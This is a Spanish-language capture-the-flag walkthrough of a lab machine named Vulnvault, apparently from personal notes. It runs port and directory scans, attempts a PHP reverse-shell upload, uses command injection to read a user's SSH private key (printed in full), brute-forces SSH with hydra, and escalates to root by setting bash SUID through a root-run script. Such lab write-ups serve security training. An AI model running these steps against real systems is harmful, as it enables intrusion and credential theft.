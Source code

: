 ```bash
nmap -O -sV -sC -p- 172.17.0.2
```
**Salida**
```bash
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0) 
| ssh-hostkey:    
|   256 f5:4f:86:a5:d6:14:16:67:8a:8e:b6:b6:4a:1d:e7:1f (ECDSA)  
|_  256 e6:86:46:85:03:d2:99:70:99:aa:70:53:40:5d:90:60 (ED25519)  
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))  
|_http-server-header: Apache/2.4.58 (Ubuntu)  
|_http-title: Generador de Reportes - Centro de Operaciones
```

en la página web hay un apartado para subir archivos al servidor, lo intentaremos explotar luego de terminar con la busqueda de directorios ocultos

```bash
gobuster dir -w /home/eduard/wordList/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://172.17.0.2 -x php,html,txt


/.php                 (Status: 403) [Size: 275]  
/.html                (Status: 403) [Size: 275]  
/index.php            (Status: 200) [Size: 3317]  
/upload.html          (Status: 200) [Size: 2314]  
/upload.php           (Status: 200) [Size: 33]  
/old                  (Status: 301) [Size: 306] [--> http://172.17.0.2/old/]  
/.php                 (Status: 403) [Size: 275]  
/.html                (Status: 403) [Size: 275]
```
vamos a subir una reverse shell escrita en php
```
nano exploit.php
nc -lvnp 443
```
y pegamos el código del github https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Tenemos que modificar la ip y poner la nuestra, tambien el puerto por el que queremos escuchar

subimos el archivo y sale un mensaje de subida exitosa. Nos dirigimos a 172.17.0.2/upload.php y nos indica 
`No se ha enviado ningún archivo.`
capturamos con burpsuite la petición e indica que ha habido un error al mover el archivo. Parece que este no es el camino
![[Vulnvault_Burpsuite1.png]]

![[Vulnvault_Burpsuite2.png]]

vamos a probar con `generador de reportes`
intentamos un `Server-Side Template Injection (SSTI)`
```bash
{{7*7}}
```
pero no da resultado

Probamos con un command injection y funciona

![[Vulnvault_CommandInjection1.png]]

![[Vulnvault_CommandInjection2.png]]

ya tenemos uno de los usuarios: `samara`. vamos a usar hydra para entrar via ssh

```bash
hydra -l samara -P /home/eduard/wordList/rockyou.txt ssh://172.17.0.2
```

no consigo la contraseña por fuerza bruta, vamos a continuar buscando con `comand injection`a ver si logramos encontrar en algún archivo la clave

```bash
; ls /root
; ls /home/samara -la
-----------------------------------------------------------------
Nombre: \
ls: cannot open directory '/root': Permission denied

drwxr-xr-x 1 samara samara   25 Aug 13 00:27 .
drwxr-xr-x 1 root   root     20 Aug 20  2024 ..
-rw------- 1 samara samara  218 Aug 20  2024 .bash_history
-rw-r--r-- 1 samara samara  220 Aug 20  2024 .bash_logout
-rw-r--r-- 1 samara samara 3771 Aug 20  2024 .bashrc
drwx------ 2 samara samara   34 Aug 20  2024 .cache
drwxrwxr-x 3 samara samara   19 Aug 20  2024 .local
-rw-r--r-- 1 samara samara  807 Aug 20  2024 .profile
drwxr-xr-x 2 samara samara   61 Aug 20  2024 .ssh
-rw-r--r-- 1 root   root     35 Aug 14 00:07 message.txt
-rw------- 1 samara samara   33 Aug 20  2024 user.txt

```
No hay nada en message y user.txt
```bash
Nombre: \
No tienes permitido estar aqui :(.
Fecha: \
cat: /home/samara/user.txt: Permission denied
```
Pero si tenemos la clave ssh

```bash
cat /home/samara/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

lo añadimos a un archivo, le damos permisos y nos conectamos via ssh
```bash
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa samara@172.17.0.2
```

```bash
whoami
# samara
```

ahora si podemos acceder al archivo user.txt
```bash
cat user.txt  
030208509edea7480a10b84baca3df3e
```

Tras un rato buscando como escalar privilegios, encontramos un arcchivo que se ejecuta con privilegios de super usuario. Es un documento que ya vimos anteriormente

```bash
samara@cb15215f66e3:/home$ ps aux | grep samara  
root     1671808  0.0  0.0  14536  8264 ?        Ss   00:18   0:00 sshd: samara [priv]  
samara   1671855  0.3  0.0  14796  6704 ?        S    00:18   0:02 sshd: samara@pts/0  
samara   1671865  0.0  0.0   5016  3852 pts/0    Ss   00:18   0:00 -bash  
samara   1699395  0.0  0.0   3144  1976 pts/0    S+   00:22   0:00 script /dev/null -c bash  
samara   1699398  0.0  0.0   5124  4152 pts/1    Ss   00:22   0:00 bash  
samara   1775175 33.3  0.0   8280  4024 pts/1    R+   00:32   0:00 ps aux  
samara   1775176  0.0  0.0   3956  2344 pts/1    S+   00:32   0:00 grep --color=auto samara  
samara@cb15215f66e3:/home$ ps aux | grep root  
root           1  5.8  0.0   2800  2132 ?        Ss   Aug13  16:22 /bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done                     <-  <-  <- 
root          15  0.0  0.0  12020  4124 ?        Ss   Aug13   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups  
root          33  0.0  0.2 203452 21780 ?        Ss   Aug13   0:02 /usr/sbin/apache2 -k start  
root     1671808  0.0  0.0  14536  8264 ?        Ss   00:18   0:00 sshd: samara [priv]  
samara   1776496  0.0  0.0   3956  2116 pts/1    S+   00:32   0:00 grep --color=auto root  
```

```bash
cat /usr/local/bin/echo.sh

#!/bin/bash  
  
echo "No tienes permitido estar aqui :(." > /home/samara/message.txt  
```
lo modificamos para que contenga el siguiente contenido:
```bash
#!/bin/bash  
  
chmod u+s /bin/bash
```

```bash
bash -p  
whoami  
# root
```

```bash
ls /root  
root.txt  

cat /root/root.txt  
640c89bbfa2f70a4038fd570c65d6dcc
```
